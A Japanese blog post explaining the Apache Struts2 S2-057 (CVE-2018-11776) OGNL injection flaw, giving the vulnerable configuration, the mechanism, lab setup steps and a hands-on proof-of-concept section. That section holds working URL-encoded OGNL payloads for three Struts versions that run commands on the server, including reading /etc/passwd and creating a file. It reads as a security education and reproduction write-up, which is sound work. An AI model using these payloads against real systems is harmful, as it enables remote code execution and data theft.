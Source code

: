 ```yaml
---
layout: post
title:  "S2-057 CVE-2018-11776"
date:   2018-08-24
permalink: /security/:title
categories: Security
tags: Struts2 S2-057 CVE-2018-11776
excerpt: Struts2のRCE脆弱性の解説とハンズオン
mathjax: false
---
```


* content
{:toc}

このポストは
S2-057を発見したLGTMのリサーチャーであるMan Yue Moと、
githubにPoCを公開したリサーチャーのjas502n、Ivan1ee、Fnzer0の情報にもとづいて書かれています。
詳細については文末を確認してください。

## 脆弱性の概要

### 脆弱な設定

struts.xmlに以下の脆弱な設定が記述されている場合、受け取ったHTTPリクエストに含まれるEL式やOGNL式を無害化できず、任意のコマンドを実行される可能性があります。
struts.xmlからincludeされている各xmlも同様に脆弱性の原因となります。

- actionタグもしくはurlタグを含むpackageタグにnamespaceの指定が無い

**脆弱性が有るxml**
```xml
<struts>
  <package name="actionchaining" extends="struts-default">
    <action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
      <result type="redirectAction">
        <param name="actionName">register2</param>
      </result>
  </package>
</struts>
```

**脆弱性が無いxml**
```xml
<struts>
  <package name="actionchaining" extends="struts-default" namespace="/hoge">
    <action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
      <result type="redirectAction">
        <param name="actionName">register2</param>
      </result>
  </package>
</struts>
```

### 想定される攻撃ベクタ

- リクエストされるURLに`%{`もしくは`${`が含まれる

  **例1**
  http://localhost/app/${1+1}/index

  **例2**
  http://localhost/app/%{(1+1)}/index

  *URLエンコードされている可能性があります*

  http://localhost/app/%24%7B1%2B1%7D/index

  http://localhost/app/%25%7B1%2B1%7D/index

## 仕組み

### Struts2の基本

HTTPリクエストに応じて適切なActionクラスを呼び出すためにActionProxyクラスが使われます。
ActionProxyクラスの基本動作はstruts.xmlに記述されたactionタグによって定義され、受け取ったHTTPリクエストに応じて具体的な動作が決定されます。

以下の例ではhogeに対してSampleClassがマッピングされています。
この状態でhttp://localhost/app1/hoge.actionにアクセスするとSampleClassが呼び出された後にhttp://localhost/app1/index.jspが表示されます。
ActionProxyクラスがURL文字列を解析してSampleClassクラスを呼び出す事によりこの動作が実現されます。

```xml
<struts>
  <package name="test" extends="struts-default" namespace="/app1">
    <action name="hoge" class="SampleClass">
      <result type="dispatcher">
        <param name="actionName">/index.jsp</param>
      </result>
    </action>
  </package>
</struts>
```
解析された文字列からクラスを呼び出す際にOGNLが使われます。
OGNLは文字列をプログラムコードとして解釈実行できるため脆弱性の温床になる可能性があります。
安全に使うためにはプログラマが意図した文字列だけを受け取るような仕組みが必要です。

### 脆弱性

今回発見された脆弱性はnamespaceを判断する機能が悪用されたものです。
packageタグにnamespace属性が指定されていない場合はURLから読み取った/app1という文字列からnamespaceが判定されます。
この時OGNLが利用されるために以下のようなURLを使ったコードが実行可能になります。

`http://localhost/app1/${1+1}/hoge.action`

- サーバは localhost
- action は hoge.action
- namespace は /app1/${1+1} ←これがOGNLに渡される

## 環境構築

jas502n/St2-057はStruts2.2.3.1でないとRCEが成立しません。
今回問題となっているStruts2.3およびStruts2.5ではシンプルな数値計算しか行えずjavaのメソッド呼び出しには失敗するためです。
そういった意味ではjas502n/St2-057には改善の余地があります。
しかし~~2018.08.24時点で唯一のPoCであり~~数値計算が出来る以上はRCEの成立まであと一歩の可能性があるという事で動作確認をしていきます。

<span style="color:red">
*jas502n/St2-057以外にStruts2.3.34で再現可能なPOCが公開されています*
</span>

やるべきことは全てSt2-057/README.mdに書いてあります。
今回はそれらの手順を読み解く必要もなく暗黙の了解を知らなくても良いスクリプトを作りました。
VirtualBoxにCentOS7_minimalを新規インストールしてスクリプトを使ってください。
環境がプロキシ配下にある場合はプロキシ設定もしてください。

### プロキシ設定
必要に応じて設定してください。

```bash
export PROXY='proxy.sample.local:8080'
cat > /etc/profile.d/proxy.sh << END
PROXY=$PROXY
export http_proxy=$PROXY
export HTTP_PROXY=$PROXY
export https_proxy=$PROXY
export HTTPS_proxy=$PROXY
END
source /etc/profile

mkdir -p /etc/systemd/system/docker.service.d
cat > /etc/systemd/system/docker.service.d/proxy.conf << END
[Service]
Environment="HTTP_PROXY=http://$PROXY/" "HTTPS_PROXY=https://$PROXY/"
END
systemctl daemon-reload

```

### Struts2

Struts2.2.3.1とStruts2.3.34とStruts2.5.16を用意します。

```bash
curl -LO https://gist.githubusercontent.com/ox0xo/17673b22fc3fa3260be4eab8687be5e5/raw/e2e72558ce0bb29a61b9ed94a9f9b438b889d00e/s2-057.sh
chmod +x s2-057.sh
./s2-057.sh
```

## PoC

### Struts2.2.3.1
**サーバの/etc/passwdを読み取る**
```
http://localhost:8080/st2231/%24%7B%28%23cmd%3D%27cat /etc/passwd%27%2C%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%23cmd%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B51020%5D%2C%23c.read%28%23d%29%2C%23sbtest%3D@org.apache.struts2.ServletActionContext@getResponse%28%29.getWriter%28%29%2C%23sbtest.println%28%23d%29%2C%23sbtest.close%28%29%29%7D/actionChain1.action
```
**サーバ上に/tmp/this_server_was_hackedを作成する**
```
http://localhost:8080/st2231/%24%7B%28%23cmd%3D%27touch /tmp/this_server_was_hacked%27%2C%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%23cmd%29%29%7D/actionChain1.action
```
### Struts2.3.34
**サーバの/etc/passwdを読み取る**
```
http://localhost:8080/st2334/%24%7B%28%23dm%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28@com.opensymphony.xwork2.ognl.OgnlUtil@class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23w%3D%23ct.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%29.%28%23w.print%28@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27cat /etc/passwd%27%29.getInputStream%28%29%29%29%29.%28%23w.close%28%29%29%7D/actionChain1
```
**サーバ上に/tmp/this_server_was_hackedを作成する**
```
http://localhost:8080/st2334/%24%7B%28%23dm%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28@com.opensymphony.xwork2.ognl.OgnlUtil@class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23cmd%3D@java.lang.Runtime@getRuntime%28%29.exec%28%22touch /tmp/this_server_was_hacked%22%29%29%7D/actionChain1
```
### struts2.5.16
**サーバの/etc/passwdを読み取る**
```
http://localhost:8080/st2516/%24%7B%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28%40com.opensymphony.xwork2.ognl.OgnlUtil%40class%29%29.%28%23ou.setExcludedClasses%28%27java.lang.Shutdown%27%29%29.%28%23ou.setExcludedPackageNames%28%27sun.reflect.%27%29%29.%28%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23w%3D%23ct.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%29.%28%23w.print%28%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%27cat /etc/passwd%27%29.getInputStream%28%29%29%29%29.%28%23w.close%28%29%29%7D/actionChain1
```
**サーバ上に/tmp/this_server_was_hackedを作成する**
```
http://localhost:8080/st2516/%24%7B%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28%40com.opensymphony.xwork2.ognl.OgnlUtil%40class%29%29.%28%23ou.setExcludedClasses%28%27java.lang.Shutdown%27%29%29.%28%23ou.setExcludedPackageNames%28%27sun.reflect.%27%29%29.%28%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23cmd%3D%40java.lang.Runtime%40getRuntime%28%29.exec%28%27touch /tmp/this_server_was_hacked%27%29%29%7D/actionChain1
```
## 参考

[Man Yue Mo: CVE-2018-11776: How to find 5 RCEs in Apache Struts with Semmle QL](https://lgtm.com/blog/apache_struts_CVE-2018-11776)

[jas502n: St2-057 在线靶机环境，Enjoy！](https://github.com/jas502n/St2-057/blob/master/README.md)

[Ivan1ee: Struts2-057/CVE-2018-11776两个版本RCE漏洞分析（含EXP）](https://github.com/Ivan1ee/struts2-057-exp/)

[Fnzer0: S2-057本地测试与复现](https://github.com/Fnzer0/S2-057-poc)
